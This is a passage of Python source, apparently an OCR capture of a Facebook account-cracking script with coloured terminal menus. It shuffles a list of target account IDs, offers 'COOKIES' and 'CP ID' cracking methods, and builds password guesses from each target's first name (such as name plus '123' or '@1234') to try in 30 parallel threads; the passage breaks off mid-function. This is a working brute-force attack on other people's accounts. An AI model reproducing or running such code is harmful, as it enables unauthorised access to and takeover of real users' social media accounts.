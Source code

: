             bcmi -=1
    elif hu in ['3','03']:
        for bacot in id:
            xx = random.randint(0,len(id2))
            id2.insert(xx,bacot)
    else:
        for bacot in id:
            xx = random.randint(0,len(id2))
            id2.insert(xx,bacot)
    print(f'\033[38;5;196m┏━───────────────────\033[1;37m')
    print("\x1b[38;5;50m┣━\033[1;91m[\033[1;92m1\033[1;91m]\033[1;92m \x1b[38;5;50m COOKIES  [\x1b[1;95mBEST\x1b[38;5;50m]")
    print("\x1b[38;5;50m┣━\033[1;91m[\033[1;92m2\033[1;91m]\033[1;92m \x1b[38;5;50m CP ID [\x1b[38;5;50mBEST\x1b[38;5;50m]")
    print(f'\033[38;5;196m┗━───────────────\033[1;37m')
    hc = input('\033[1;91m[\033[1;92m+\033[1;91m] \033[1;96mCHOOSE: ')
    #os.system("xdg-open https://www.facebom/SSC.King.Ok.Bro")
    if hc in ['1','01']:
        method.append('mobile')
    elif hc in ['2','02']:
        method.append('free')
    else:
        method.append('mobile')
    passwrd()
    exit() 
 
#-------------------[ BAGIAN-WORDLIST ]------------#
 
def passwrd():
    os.system('clear')
    print(logo)
    print(f'\x1b[38;5;50m┏━──────────────────────────────────────────────────\033[1;37m')
    print(f"\x1b[38;5;50m┣━\033[1;91m[\033[1;92m+\033[1;91m] \033[92;1\x1b[1;97m𝚈𝙾𝚄𝚁 𝚃𝙾𝙾𝙻𝚂 𝙰𝙲𝚃𝙸𝚅𝙴 \x1b[38;5;50m[𝙿𝚁𝙴𝙼𝙸𝚄𝙼] ") 
    print(f"\x1b[38;5;50m┣━\033[1;91m[\033[1;92m+\033[1;91m] \033[92;1\x1b[1;97m𝚄𝚂𝙴𝚁 𝙽𝙰𝙼𝙴\033[1;91m :\033[1;96m "+𝚞𝚗𝚊𝚖𝚎)
    print('\x1b[38;5;50m┣━\033[1;91m[\033[1;92m+\033[1;91m] \033[41m\x1b[1;97m𝚈𝙾𝚄𝚁 𝚃𝙾𝚃𝙰𝙻 𝙸𝙳𝚣 \033[0;97m:\x1b[38;5;50m ',str(len(id)))
   # print("\033[1;91m[\033[1;92m+\033[1;91m] \033[41m\x1b[1;97m𝚂𝚃𝙰𝚁𝚃𝙴𝙳 𝚈𝙾𝚄𝚁 𝙲𝙻𝙾𝙽𝙸𝙽𝙶 𝚃𝙸𝙼𝙴\033[0;97m :> \x1b[38;5;50m"+time.strftime("%H:%M")+" "+ tag)
    print(f'\x1b[38;5;50m┣━\033[1;91m[\033[1;92m+\033[1;91m] \x1b[38;5;46m\033[1;97m𝙵𝙰𝚂𝚃 \033[1;34m[\033[1;32m𝙽𝙾\033[1;97m/\033[38;5;196m𝙾𝙵𝙵\033[1;34m] \033[1;97m𝙰𝙸𝚁𝙿𝙻𝙰𝙽𝙴 𝙼𝙾𝙳𝙴] [💙] ')
    print(f'\x1b[38;5;50m┗━──────────────────────────────────────────────────\033[1;37m')
    with tred(max_workers=30) as pool:
        for yuzong in id2:
            idf,nmf = yuzong.split('|')[0],yuzong.split('|')[1].lower()
            frs = nmf.split(' ')[0]
            pwv = []
            if len(nmf)<6:
                if len(frs)<3:
                    pass
                else:
                    pwv.append(frs+'12')
                    pwv.append(frs+'22')
                    pwv.append(frs+'@12')                                        
                    pwv.append(frs+'123')
                    pwv.append(frs+'1234')
                    pwv.append(frs+'@1234')                   
                    pwv.append(nmf)
                    pwv.append('57273200')
                    pwv.append(frs+'@123')
                    pwv.append(frs+'@')
